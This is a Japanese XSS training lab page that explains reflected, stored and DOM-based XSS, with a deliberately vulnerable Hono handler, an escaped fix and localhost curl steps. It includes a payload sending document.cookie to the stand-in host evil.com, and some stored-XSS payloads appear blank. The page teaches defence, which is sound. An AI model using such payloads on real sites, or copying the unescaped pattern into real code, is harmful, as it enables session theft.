


# Cross-Site Scripting (XSS) — Webページにスクリプトを埋め込む

> 攻撃者が仕込んだJavaScriptが、被害者のブラウザ上で「そのWebサイトの一部として」実行されてしまうことで、Cookie の窃取やページの改ざんが行える脆弱性を学びます。

---

## 対象ラボ

### 1. Reflected XSS (反射型)

| 項目 | 内容 |
|------|------|
| **概要** | URL パラメータの値がサーバーの応答 HTML にそのまま反映され、ブラウザがそれをスクリプトとして実行してしまう |
| **攻撃例** | `/search?q=<script>alert(document.cookie)</script>` |
| **技術スタック** | Hono API (HTML レスポンス) |
| **難易度** | ★☆☆ 入門 |
| **前提知識** | HTML の基本構造、`<script>` タグの役割、URL パラメータの仕組み |

### 2. Stored XSS (格納型)

| 項目 | 内容 |
|------|------|
| **概要** | 投稿フォーム等から送信されたスクリプトがデータベースに保存され、他のユーザーがそのページを表示するたびに実行される |
| **攻撃例** | 掲示板に `` を投稿 |
| **技術スタック** | Hono API + PostgreSQL + React |
| **難易度** | ★★☆ 中級 |
| **前提知識** | Reflected XSS の理解、HTML イベントハンドラ属性 |

### 3. DOM-based XSS

| 項目 | 内容 |
|------|------|
| **概要** | クライアント側の JavaScript が URL フラグメントやパラメータを安全でない方法で DOM に挿入することでスクリプトが実行される |
| **攻撃例** | `http://localhost:5173/page#` — `innerHTML` で反映 |
| **技術スタック** | React (`dangerouslySetInnerHTML`) |
| **難易度** | ★★☆ 中級 |
| **前提知識** | Reflected XSS の理解、JavaScript の DOM 操作（`innerHTML`）、React の基本 |

---

## この脆弱性を理解するための前提

### ブラウザが HTML を処理する仕組み

ブラウザは Web サーバーから受け取った HTML を解析（パース）し、DOM ツリーを構築する。この過程で `<script>` タグや `onerror` 等のイベントハンドラ属性を見つけると、その中の JavaScript を **そのページのオリジン（ドメイン）の権限で** 実行する。

```html
<!-- サーバーが返す正常なHTML -->
<h1>検索結果: セキュリティ</h1>
<p>3件見つかりました</p>
```

ブラウザはこの HTML を「このサイトが意図して返したコンテンツ」として信頼し、そのまま描画する。

### どこに脆弱性が生まれるのか

問題は、サーバーやクライアント側の JavaScript が **ユーザー入力をエスケープせずに HTML の一部として出力する** 場合に発生する。ブラウザは「サーバーが意図して埋め込んだスクリプト」と「攻撃者が入力として注入したスクリプト」を区別できない。

```typescript
// ⚠️ この部分が問題 — ユーザー入力をそのまま HTML に埋め込んでいる
app.get('/search', (c) => {
  const q = c.req.query('q');
  // 入力値がHTMLの一部としてブラウザに解釈される
  return c.html(`<h1>検索結果: ${q}</h1>`);
});
```

`q` に `<script>alert(1)</script>` が入力されると、ブラウザはこれを正規のスクリプトタグとして解釈し実行する。

---

## 攻撃の仕組み



### 攻撃のシナリオ

#### シナリオ 1: Reflected XSS

1. **攻撃者** が悪意あるスクリプトを含む URL を作成し、被害者に送信する（メール、SNS、掲示板等）

   ```
   https://example.com/search?q=<script>document.location='https://evil.com/steal?c='+document.cookie</script>
   ```

   URL は正規のドメイン（`example.com`）であるため、被害者は不審に思いにくい。

2. **被害者** がリンクをクリックし、脆弱な Web サーバーにリクエストを送信する

   ブラウザは URL パラメータ `q` の値をそのままサーバーに送信する。

3. **サーバー** が入力値をエスケープせずに HTML レスポンスに埋め込んで返す

   ```html
   <h1>検索結果: <script>document.location='https://evil.com/steal?c='+document.cookie</script></h1>
   ```

   サーバーは入力値を単なるテキストとして扱うべきだが、HTML 構文として解釈される文字をそのまま出力してしまう。

4. **被害者のブラウザ** が HTML を解析し、`<script>` タグ内の JavaScript を実行する

   ブラウザにとってこのスクリプトは「`example.com` が送ってきた正規のコード」であるため、`example.com` の Cookie にフルアクセスできる。`document.cookie` でセッション Cookie を取得する。

5. **盗まれた Cookie が攻撃者のサーバーに送信される**

   `document.location` の変更により、Cookie の値がクエリパラメータとして攻撃者のサーバーに送信される。攻撃者はこの Cookie を使ってセッションハイジャックが可能になる。

#### シナリオ 2: Stored XSS

1. **攻撃者** が掲示板に `` を含む投稿を行う

2. **サーバー** がこの投稿をエスケープせずにデータベースに保存する

3. **他のユーザー** が掲示板を閲覧すると、サーバーは保存された投稿を HTML に埋め込んで返す

4. **ブラウザ** が `` タグを解釈し、`src=x` は存在しないため `onerror` ハンドラが発火し、攻撃スクリプトが実行される

   Stored XSS は Reflected XSS と違い、被害者がリンクをクリックする必要がなく、**ページを表示するだけで攻撃が成立する**。

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| HTML エスケープの欠如 | `<`, `>`, `"`, `'` 等の HTML 特殊文字がエスケープされずに出力される。これにより攻撃者の入力が HTML 構文として解釈される |
| 同一オリジンポリシーの信頼 | ブラウザは「このサーバーが返した HTML に含まれるスクリプト」をそのオリジンの正規コードとして実行する。サーバーが返した以上、ブラウザには攻撃コードかどうか区別できない |
| CSP ヘッダーの未設定 | Content-Security-Policy が設定されていなければ、インラインスクリプトの実行を制限する手段がない |

### 被害の範囲

- **機密性**: セッション Cookie の窃取によるアカウント乗っ取り。被害者がログイン中のすべてのサービスの Cookie にアクセス可能
- **完全性**: ページ内容の改ざん（フィッシングフォームの埋め込み、偽情報の表示）。被害者は正規のサイトを見ていると思い込む
- **可用性**: リダイレクトループやページ破壊によるサービス利用不能

---

## 対策



### 根本原因

ユーザー入力が **HTML の構文（マークアップ）** として解釈される設計になっていることが根本原因。テキストデータとして出力されるべき入力が、HTML タグやイベントハンドラとして処理されてしまっている。

### 安全な実装

出力時にエスケープ処理を行い、HTML の特殊文字を文字参照（エンティティ）に変換する。これにより `<script>` は `&lt;script&gt;` となり、ブラウザはこれをタグではなくテキストとして表示する。

```typescript
// ✅ 出力エスケープ — HTML特殊文字を文字参照に変換
function escapeHtml(str: string): string {
  return str
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#39;');
}

app.get('/search', (c) => {
  const q = c.req.query('q') ?? '';
  // エスケープされた値はHTMLタグとして解釈されない
  return c.html(`<h1>検索結果: ${escapeHtml(q)}</h1>`);
});
```

`<script>alert(1)</script>` が入力されても、出力は `&lt;script&gt;alert(1)&lt;/script&gt;` となり、ブラウザは「`<script>alert(1)</script>`」という **テキスト** を画面に表示するだけでスクリプトは実行されない。

React の場合は JSX の `{}` 式がデフォルトでエスケープを行うため、通常は安全。`dangerouslySetInnerHTML` を使わない限り XSS は発生しない。

#### 脆弱 vs 安全: コード比較

```diff
- return c.html(`<h1>検索結果: ${q}</h1>`);
+ return c.html(`<h1>検索結果: ${escapeHtml(q)}</h1>`);
```

この 1 行の違いにより、`<` が `&lt;` に、`>` が `&gt;` に変換される。ブラウザは `&lt;script&gt;` をタグの開始として解釈せず、純粋なテキストとして描画する。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| 出力エスケープ | 根本対策 | HTML / JavaScript / URL 等、出力先のコンテキストに応じた適切なエスケープを行う。最も重要な対策 |
| CSP (Content-Security-Policy) | 多層防御 | `script-src 'self'` を設定し、インラインスクリプトの実行を禁止する。エスケープ漏れがあっても被害を軽減できる |
| HttpOnly Cookie | 多層防御 | Cookie に `HttpOnly` 属性を付与し、JavaScript からのアクセスを禁止する。XSS が成功しても Cookie の窃取を防ぐ |
| WAF | 検知 | `<script>` 等のパターンを含むリクエストを検知・ブロックする。バイパス手法が多いため根本対策にはならない |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: URL に埋め込んだスクリプトが被害者のブラウザで実行されることを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. Reflected XSS を試す — URL パラメータにスクリプトを埋め込む

   ```bash
   # ブラウザで開く
   # http://localhost:3000/api/labs/xss/vulnerable/search?q=<script>alert('XSS')</script>

   # または curl で確認（HTMLレスポンスにスクリプトが含まれることを確認）
   curl "http://localhost:3000/api/labs/xss/vulnerable/search?q=<script>alert('XSS')</script>"
   ```

3. 結果を確認する

   - ブラウザで開いた場合: `alert('XSS')` のダイアログが表示される
   - curl の場合: レスポンス HTML に `<script>alert('XSS')</script>` がそのまま含まれている
   - **この結果が意味すること**: 任意の JavaScript を被害者のブラウザで実行できる状態。`alert` を `document.cookie` に置き換えれば Cookie が窃取される

4. Stored XSS を試す — 掲示板にスクリプトを投稿する

   ```bash
   # 悪意ある投稿を送信
   curl -X POST http://localhost:3000/api/labs/xss/vulnerable/posts \
     -H "Content-Type: application/json" \
     -d '{"title": "普通の投稿", "content": ""}'
   ```

5. 他のユーザーとして投稿一覧を確認する

   ```bash
   # ブラウザで投稿一覧を開く
   # http://localhost:3000/api/labs/xss/vulnerable/posts
   ```

   - ページを開くだけでスクリプトが実行される（リンクのクリック不要）

### Step 2: 安全バージョンで防御を確認

**ゴール**: 同じ攻撃が失敗することを確認する

1. 同じペイロードを安全なエンドポイントに送信する

   ```bash
   curl "http://localhost:3000/api/labs/xss/secure/search?q=<script>alert('XSS')</script>"
   ```

2. 結果を確認する

   - レスポンス HTML に `&lt;script&gt;alert('XSS')&lt;/script&gt;` とエスケープされた値が含まれる
   - ブラウザで開いても `<script>alert('XSS')</script>` というテキストが **表示されるだけ** で実行されない

3. コードの差分を確認する

   - `backend/src/labs/xss.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: `${q}` → `${escapeHtml(q)}`

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] Reflected XSS と Stored XSS の違いは何か（攻撃の起点と被害の持続性）
- [ ] なぜ `<script>` タグがテキストではなくコードとして実行されてしまうのか
- [ ] 出力エスケープは「なぜ」この攻撃を無効化するのか（`<` → `&lt;` がブラウザの解釈にどう影響するか）
- [ ] CSP や HttpOnly Cookie が「多層防御」であり「根本対策」ではない理由は何か

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント (Reflected) | `/api/labs/xss/vulnerable/search` |
| 脆弱エンドポイント (Stored) | `/api/labs/xss/vulnerable/posts` |
| 安全エンドポイント (Reflected) | `/api/labs/xss/secure/search` |
| 安全エンドポイント (Stored) | `/api/labs/xss/secure/posts` |
| バックエンド | `backend/src/labs/xss.ts` |
| フロントエンド | `frontend/src/pages/Xss.tsx` |
| DB | `docker/db/init.sql` の `posts` テーブルを使用 |

- Reflected XSS: Hono で `c.html()` を使って HTML を直接返す実装
- Stored XSS: `posts` テーブルに投稿を保存し、一覧表示時にエスケープなしで HTML に埋め込む
- DOM-based XSS: React で `dangerouslySetInnerHTML` を使って URL フラグメントを反映
- 安全版では `escapeHtml()` ヘルパー関数でエスケープ処理を行う

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2005 | Samy (MySpace Worm) | Stored XSS ワームにより 20 時間で 100 万ユーザーのプロフィールが改ざんされた。自己増殖するXSSの先駆け |
| 2018 | British Airways | XSS 脆弱性を悪用したスキミング攻撃で 38 万件のクレジットカード情報が漏洩。GDPR 違反で 1.83 億ポンドの罰金 |
| 2019 | Fortnite | Reflected XSS によりプレイヤーのアカウントが乗っ取り可能な状態だった。Cookie 窃取によるセッションハイジャック |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [SQL インジェクション](./sql-injection.md) | 同じ「入力値がコードとして解釈される」パターン。SQL の代わりに HTML/JavaScript が対象 |
| [セッションハイジャック](../step04-session/session-hijacking.md) | XSS で窃取した Cookie を使ってセッションを乗っ取る攻撃。XSS は手段、セッションハイジャックは目的 |
| [CSRF](../step04-session/csrf.md) | XSS が成立すれば CSRF トークンも JavaScript で取得できるため、CSRF 対策も突破される |
| [クリックジャッキング](../step07-design/clickjacking.md) | XSS と組み合わせてフィッシングフォームを埋め込む等、複合攻撃に発展し得る |

---

## 参考資料

- [OWASP - Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [CWE-79: Improper Neutralization of Input During Web Page Generation](https://cwe.mitre.org/data/definitions/79.html)
